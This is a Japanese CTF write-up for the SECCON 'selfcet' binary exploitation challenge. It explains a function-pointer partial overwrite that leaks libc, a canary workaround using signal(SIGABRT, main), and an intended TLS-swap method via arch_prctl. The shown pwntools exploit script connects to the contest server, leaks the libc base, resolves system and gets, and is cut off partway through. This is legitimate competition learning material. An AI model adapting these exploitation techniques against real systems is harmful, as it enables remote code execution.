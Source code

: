 ```c
```

Full RELRO, NX, Stack Smashing Protectorあり, No PIEで、先頭が`endbr64`の関数を2回、それぞれ32bitと64bitの引数2個を渡して呼びだせ、スタックバッファオーバーフローもあるプログラムを攻略する問題です。

関数の初期値は`err()`で、第二引数のアドレスの内容をリークできますが途中で`exit()`してしまいます。しかし、実行環境(Ubuntu 22.04)のlibcは`err()`の近くにそれの`exit()`しないバージョンの`warnx()`があるので、関数ポインタを途中まで書き換えることでGOTをリークしてlibcのアドレスを特定できます。

しかし、第一引数が32bitなので、`0xffffffff`以降に配置されているlibc内の`/bin/sh\0`を使ってお手軽に`system("/bin/sh")`できません。  
`endbr64`がない関数の途中に飛ばすこともできないので、うまくlibcを悪用してシェル実行に持ち込む必要があります。

自分は`signal()`が都合のよい引数を持っていて、SSPが`SIGABRT`で自殺することを利用して`signal(SIGABRT, main)`で`main()`に戻して関数の実行回数を増やし、`gets()`で32bitの範囲に`"/bin/sh"`を作って`system("/bin/sh")`しましたが、これは想定解ではなく、

{{<tweet user="pwnyaa" id="1703283949328576549">}}

`arch_prctl(ARCH_SET_FS)` でTLSを差し替えてcanaryチェックを回避するのが想定解らしいです。これならリーク→canary置き換え→バッファオーバーフローの1パスで行けますね。  
しかし、`ld.so`がTLSをセットアップしていることを知っていたにもかかわらず、なぜか同じ方法で再設定する発想に至れてませんでした… こういうのよくないですね。

exploit:
```python
from pwn import *
import os
import time

libc = ELF("./libc.so.6")

for i in range(16):
   warnx_l16 = 0x0010 + 0x1000 * i
   print(f"trying: {warnx_l16:x}")

   # r = process("./xor", env={"LD_LIBRARY_PATH": os.getcwd()})
   # input()
   # warnx_l16 = 0x1010

   r = remote("selfcet.seccon.games", 9999)

   buf = b""
   buf += b"A" * 0x20 #key
   buf += b"B" * 0x1f + b'\n' #buf
   buf += b"C" * 8 # error (arg2)
   buf += p64(0x403ff8) # status (arg1) != 0, 32bit #err@got
   buf += p16(warnx_l16) #warnx

   r.send(buf)
   try:
      print(r.recvuntil(b"xor: "))
   except EOFError:
      r.close()
      continue
   break

a = r.recvuntil(b": Success\n")[:-len(b": Success\n")].ljust(8, b'\0')
err = u64(a)
print(f"err={err:x}")

base = err - libc.symbols["err"]
print(f"base={base:x}")
system = base + libc.symbols["system"]
signal  = base + libc.symbols["signal"]
gets = base + libc.symbols["gets"]
main = 0x401209

buf2 = b""
buf2 += b"B" * 0x1f + b'\n' #buf
```